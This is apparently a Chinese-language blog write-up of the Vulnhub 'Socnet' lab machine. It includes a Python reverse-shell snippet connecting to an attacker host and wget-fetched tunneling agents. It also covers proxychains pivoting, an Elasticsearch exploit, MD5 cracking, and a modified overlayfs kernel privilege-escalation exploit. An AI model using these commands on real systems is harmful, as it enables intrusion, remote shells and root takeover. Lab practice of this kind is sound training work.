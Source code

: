 ﻿---
title: Chapter1_Medium_Socnet
categories:
- Network_Security
- Vulnhub
- Chapter1
tags:
- Network_Security
- Vulnhub
date: 2024-01-20 11:34:14
---


# Socnet 打靶学习记录（考研痛苦后的第一篇复健）

## 1. 过程记录

### 1.1 外围探测与信息收集

1. 同一内网下直接使用 arp-scan 来进行主机发现

2. nmap 扫描端口，发现其开放端口 5000：
    `nmap -Pn -sV 192.168.0.104 -p 1-65535`

3. Web 页面没有可以利用的点，从而进行目录扫描，最终发现 /admin 代码测试界面：
    `dirsearch -u http://192.168.0.104:5000`

4. 根据 nmap 结果，判断其是一个基于 Python 的 Web 程序，使用 Python 反弹（百度） WebShell：
    `nc -lvvp 4444 # 监听 4444 端口`

    ```python
    # Python 反弹 Shell 代码
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("192.168.0.2",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
    ```

### 1.2 内部信息收集

1. 进入系统后进行信息收集，发现是 docker 容器。判断是否真的是 docker 容器：

    1. `ls /.dockerenv` 文件是否存在
    2. `cat /proc/1/cgroup` 文件是否都是 docker 文件
        1. `/proc/1/cgroup` 的含义
        2. 存放的都是 docker 的 hash 值
2. 查看网络，发现还有内网地址，用 shell 脚本命令可以用来暂时探测 172 内网网段：
    `for i in $(seq 1 255); do ping -c 1 172.17.0.$i; done`

### 1.3 内网穿透与扫描

1. 想进一步进行渗透的话，需要内网穿透，这里使用 Venom 进行渗透。
    kali 监听 9999 并开启 http 服务：

    ```bash
    ./admin_linux_x64 -lport 9999
    python3 -m http.server 80
    ```

2. 靶机通过 wget 下载客户端程序，赋予权限并反向链接
    `wget http://192.168.0.2（kali 的 ip）/agent_linux_x64`

3. 靶机赋予权限并反向链接
    ```bash
    chmod +x agent_linux_x64
    ./agent_linux_x64 -rhost 192.168.0.2（kali ip） -rport 9999
    ```

4. kali 进入节点中并开启 socks5 代理：
    ```bash
    show # 查看节点
    goto 1 # 进入节点 1
    socks 1080 # 监听 1080 端口
    ```

5. 使用 proxychains4 网络代理工具，设置代理端口
    `vim /etc/proxychains4.conf`
    同时别忘了最后一行改为：
    `socks5 127.0.0.1 1080`

6. 接着就是扫内网了：
    `proxychains nmap -Pn -sV -p 1-65535 172.17.0.1-3`

### 1.4 横向移动与 EXP 的使用

1. 通过浏览器设置 socks5 代理访问 172.17.0.1:5000 可知这个 ip 是 docker 对内 ip。 最终172.17.0.3 容器中的 9200 端口开放了 Elasticsearch REST API 服务，运用 metasploit 找 exp 进行攻击。
    `searchsploit Elasticsearch`

2. 先尝试第一个攻击脚本：
    ```bash
    cp /usr/share/exploitdb/exploits/linux/remote/36337.py /home/hacker # 先将 exp 拷贝出来
    # 查看 exp 发现是 python2 的脚本，因此使用 python2 执行
    python2 36337.py
    ```

3. 拿到第二个容器的 root 权限，信息收集后，看到其 passwords 文件中有用户名和密码的 hash 值，需要进行 MD5 破解。

4. 破解后，用密码通过 ssh 登录到靶机（注意这是已经不是在容器中了，而是在靶机中）：
    `ssh john@192.168.0.104（靶机 ip）`

### 1.5 提权与 EXP 的修改

1. 提权

    1. 先试试 sudo su
    2. 利用内核提权

2. 利用内核提权：
      `search linux 3.13`

3. 还是先查看 exp 的使用方法，简略阅读 exp 源码，然后执行。（这里使用的是 37292（Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation），对于 C 语言的 exp，靶机没有 gcc，kali 需要编译成 elf 文件然后传过去。

4. 传过去执行还是报错，源码中其实有段代码：
    `lib = system("gcc -fPIC -shared -o....")`
    exp 过程中使用到了 gcc，而靶机本身是没有 gcc 的，因此需要手动执行，并将文件放到靶机对应的地方。

5. 修改 exp，为：
      ![image-20240108115350035](image-20240108115350035.png)
      将其中涉及 gcc 编译生成 ofs-lib.so 共享文件的代码给删掉。

6. 接着 `locate ofs-lib.so` 查看 kali 上是否已经有该文件，没有就按照原代码那样生成一个 ofs-lib.so。

7. 编译修改后的 37292，将生成的 exp 和 ofs-lib.so 传到靶机上，同时注意要将 ofs-lib.so 放到靶机的 tmp 目录：
    ```bash
    gcc 37292.c -o exp
    cp /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so . # 将 ofs-lib.so 拿过来
    # 通过 http 服务，用 wget 将 exp 和 ofs-lib.so 传到靶机的 /tmp 上
    # 靶机执行：
    chmod +x exp
    ./exp
    ```

    PS：[高版本下 kali gcc 的 glibc 指定版本的编译问题](#2.3 高版本下 kali gcc 的 glibc 指定版本的编译问题（执行 elf 文件时报错：version `GLIBC_2.34‘ not found）)

## 2. 知识点总结

### 2.1 一些细节

1. 同一内网下 arp 的扫描要更快。
2. docker 容器的判断。
3. Venom 内网穿透工具的使用
4. 每次使用 EXP 之前尽量大概浏览一下 EXP 的源码

### 2.2 简单总结一下渗透流程

1. 扫端口和服务，站点的信息收集
2. 访问页面查看利用点、路径爆破
3. 内网穿透与扫描，横向移动与容器逃脱
4. 提权

### 2.3 高版本下 kali gcc 的 glibc 指定版本的编译问题（执行 elf 文件时报错：version `GLIBC_2.34‘ not found）

  1. 报错需要 GLIBC_2.34，那就去下载 GLIBC_2.34。

  2. 解决方法的来源：

      > https://blog.csdn.net/weixin_65527369/article/details/127973141
      >
      > https://blog.csdn.net/weixin_49764009/article/details/124970461

  3. 先下载 glibc-all-in-one 工具：
      `git clone https://github.com/matrix1001/glibc-all-in-one.git`

  4. 根据工具的 readme 来使用（要在 root 的权限下执行）：
      ```bash
      cd glibc-all-in-one/
      python3 update_list # 更新列表
      cat list 或者 old_list # 查看可以安装的 glibc 版本
      ./download 具体版本的 gblic
      ```

  5. 配置 patchelf（如果需要 kali 执行 elf 文件时需要配置，这里是靶机执行，应该可以不用安装）
      ```bash
      git clone https://github.com/NixOS/patchelf.git
      cd patchelf
      ./bootstrap.sh 
      ./configure
      make
      make check
      sudo make install
      ```

  6. kali 指定 glibc 版本并编译 poc：
      ```bash
      gcc -Wl,-rpath="/tmp/exp_package/2.34-0ubuntu3_amd64/",-dynamic-linker="/tmp/exp_package/2.34-0ubuntu3_amd64/ld-linux-x86-64.so.2" -s 37292.c -o exp # 注意没有空格，-rpath 和 -dynamic-linker 之间不能有空格！
      ```

  7. 注意编译链接 so 的路径是绝对路径，因此靶机上也要有相应的文件路径：
      ```bash
      # 靶机上
      mkdir /tmp/exp_package # 要求 so 文件路径保持一致
      cd /tmp/exp_package
      wget -r -c -nH -np http://192.168.0.2(kali)/2.34-0ubuntu3_amd64 # 把整个文件夹都下载下来
      chmod +x -R ./2.34-0ubuntu3_amd64 # 将 glibc 所有文件的权限进行修改，不然无法执行 exp
      ```

  8. 这时再执行 exp 即可。

  9. TODO: gcc 的 `-rpath` 和 `-dynamic-linker` 应该可以使用相对路径。
